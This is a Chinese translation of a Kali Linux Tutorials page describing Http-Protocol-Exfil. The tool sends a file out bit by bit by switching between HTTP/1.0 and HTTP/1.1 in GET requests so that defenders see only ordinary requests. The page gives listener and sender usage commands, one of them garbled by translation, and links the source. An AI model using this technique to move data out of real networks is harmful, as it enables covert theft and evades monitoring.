# Http-Protocol-Exfil:使用 Http 协议版本过滤文件(“HTTP/1.0”是 0，“HTTP/1.1”是 1)

> 原文：<https://kalilinuxtutorials.com/http-protocol-exfil/>

[![](img/b32f4287e75257e0d22c7961b4a236b7.png)](https://blogger.googleusercontent.com/img/a/AVvXsEjdakoFJbzknX4iI6s9RGidVuTMWVwnjtvTn_jE4xmre87IkSgZ8TkJn0JjchWiRgdLoGkRWPHg0sa03EnSt78rlhIx59Ab_X8VDknpXgy_4U7cLUQfkgscOWPTPqpzdb9hcLwmaY8r5jGgUZ21nCxi_IeVMJjgA2QLZAN9qgDHkpanEfTmtW6ykP2C=s728)

**Http-Protocol-Exfil** 使用 Http 协议版本逐位发送一个文件(“HTTP/1.0”为 0，“HTTP/1.1”为 1)。它使用 GET 请求，所以蓝队只会看到对你的 IP 地址的请求。但是，发送较大的文件需要很长时间，例如，发送 200 KB 的文件需要 1 个小时，并且请求量会非常高(是文件字节数的 8 倍)。

**创建监听器**

要运行侦听器，请使用带有一个可选参数的 listener.py:它将侦听的端口。

**python3 listener.py [PORT]**

示例:

**python3 listener.py 8080**

**发送文件**

要发送文件，请使用带有两个强制参数的 sender.py:文件路径和侦听器的 url 还有一个可选参数:远程创建的文件的名称(如果不使用，则使用输入文件的名称)。

**python3 sender.py -u URL -i INPUTFILE [-o OUTPUTFILE]**

示例:

**python 3 sender . py-u " http://127 . 0 . 0 . 1:8080 "-I test . txt-o up**dated _ test . txt

**例子**

首先发送文件:

![](img/bebc029550b06459c912bc5a50cd1f7b.png)

如果变量 debug 设置为 True(默认情况下)，您可以在侦听器日志消息中看到二进制值:

![](img/37896ee9ff00dd3da97aa06e9c90340a.png)

新文件是用输入文件的内容创建的:

![](img/944b5328587f48e4052028bc78d48c0f.png)[**Download**](https://github.com/ricardojoserf/http-protocol-exfil)